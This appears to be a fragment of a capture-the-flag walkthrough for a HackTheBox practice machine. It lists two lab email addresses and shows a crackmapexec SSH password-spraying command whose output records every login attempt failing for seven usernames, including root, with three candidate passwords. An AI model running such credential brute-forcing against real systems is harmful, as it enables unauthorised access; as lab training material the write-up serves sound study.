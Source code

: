 ```
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```


## Brutefored SSH , but nothing happened

### crackmapexec ssh 10.10.10.187 -u usernames -p passwords

```
SSH         10.10.10.187    22     10.10.10.187     [*] SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
SSH         10.10.10.187    22     10.10.10.187     [-] p.wise:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] p.wise:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] p.wise:w0rdpr3ss01! Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] r.nayyar:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] r.nayyar:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] r.nayyar:w0rdpr3ss01! Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] a.bialik:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] a.bialik:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] a.bialik:w0rdpr3ss01! Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] l.galecki:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] l.galecki:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] l.galecki:w0rdpr3ss01! Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] h.helberg:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] h.helberg:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] h.helberg:w0rdpr3ss01! Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] b.rauch:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] b.rauch:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] b.rauch:w0rdpr3ss01! Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] root:fgJr6q#S\W:$P Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] root:%n?4Wz}R$tTF7 Authentication failed.
SSH         10.10.10.187    22     10.10.10.187     [-] root:w0rdpr3ss01! Authentication failed.
```
